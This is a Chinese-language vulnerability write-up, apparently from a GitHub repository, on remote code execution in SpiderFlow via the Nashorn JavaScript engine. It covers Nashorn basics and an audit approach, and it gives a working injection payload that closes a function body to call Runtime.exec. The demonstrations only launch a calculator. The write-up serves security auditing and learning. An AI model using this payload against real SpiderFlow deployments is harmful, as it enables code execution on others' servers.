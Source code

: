 ### SpiderFlow RCE via Nashorn

#### 前置知识

— Nashorn是什么？怎么用？

##### What

Nashorn是于Java 8中用于取代Rhino（Java 6，Java 7）的JavaScript引擎。

##### How

> 实现如何用Nashorn在Java中执行JS代码即可

![image-20220102181550828](img/image-20220102181550828.png)

测试效果

![image-20220102181612329](img/image-20220102181612329.png)

##### RCE 

Nashorn定义了一个称为Java的新的全局对象，它包含许多有用的函数来使用Java包和类。

Java对象的` type()`函数将Java类型导入脚本中。

示例

![image-20220102182241321](img/image-20220102182241321.png)

那么如何弹计算器的呢？

示例

```java
package org.spiderflow.demo;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineManager;
class JsFromJava{
    public static void main(String args[]) throws Exception {
        String evilJs="var RCETest= Java.type(\"java.lang\"+\".Runtime\"); var rt = RCETest.getRuntime(); rt.exec(\"calc\");";
        ScriptEngineManager manager = new ScriptEngineManager(null);
        ScriptEngine engine = manager.getEngineByName("nashorn");
        engine.eval(evilJs);
    }
}
```

![image-20220102182630383](img/image-20220102182630383.png)

#### 审计思路

有了上面的测试，审计这类漏洞尝试搜索`.eval(`等关键字即可，然后再看看源码是否实现`jdk.nashorn.api.scripting.ClassFilter`进行了过滤。

#### 漏洞复现

- 全局搜索`.eval(`

![image-20220102183719108](img/image-20220102183719108.png)

- 跟进

  - org.spiderflow.core.script.ScriptManager#registerFunction

    ![image-20220102184652005](img/image-20220102184652005.png)

  - org.spiderflow.core.script.ScriptManager#concatScript

    ![image-20220102184309834](img/image-20220102184309834.png)

- 构造payload,闭合一下

  ```js
  # function+functionName+(+parameters+)+{+script+}
  	functionName: rce
  	parameters: demo
  	script:	}Java.type("java.lang.Runtime").getRuntime().exec('calc');{
  # function rce(){demo}Java.type("java.lang.Runtime").getRuntime().exec('calc');{}
  ```

  复现效果：

  ![image-20220102191038717](img/image-20220102191038717.png)

  
